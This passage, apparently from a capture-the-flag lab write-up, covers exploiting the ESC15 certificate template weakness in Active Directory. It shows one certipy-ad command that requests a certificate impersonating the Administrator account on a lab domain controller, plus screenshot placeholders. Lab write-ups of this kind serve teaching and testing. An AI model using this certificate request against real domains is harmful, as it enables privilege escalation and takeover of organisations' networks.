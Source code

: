 ![ESC15 Vulnerability](picture54.png)

We requested a certificate for Administrator:

```bash
certipy-ad req -u cert_admin -p admin123 -dc-ip 10.10.11.72 -target dc01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

![Request Admin Cert](picture55.png)

![Request Admin Cert](picture56.png)